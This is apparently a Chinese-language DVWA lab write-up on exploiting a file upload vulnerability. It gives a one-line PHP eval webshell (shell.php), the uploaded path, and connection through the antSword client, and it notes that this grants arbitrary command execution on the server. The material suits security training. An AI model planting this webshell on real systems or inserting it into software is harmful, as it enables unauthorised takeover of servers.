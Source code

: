 文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。不幸的是，这里三个条件全都满足。

上传文件 shell.php(一句话木马)
```php
<?php @eval($_POST['ant']); ?>
```

上传成功，并且返回了上传路径

![image](../../../assets/img/安全/实验/dvwa/dvwa24.png)

注:这里推荐用开源的 [antSword](https://github.com/AntSwordProject/antSword) 连接webshell，安装步骤这里略

`http://<IP地址!!!>/dvwa/hackable/uploads/shell.php`

![image](../../../assets/img/安全/实验/dvwa/dvwa25.png)

然后 antSword 就会通过向服务器发送包含 ant 参数的 post 请求，在服务器上执行任意命令，获取 webshell 权限。可以下载、修改服务器的所有文件。
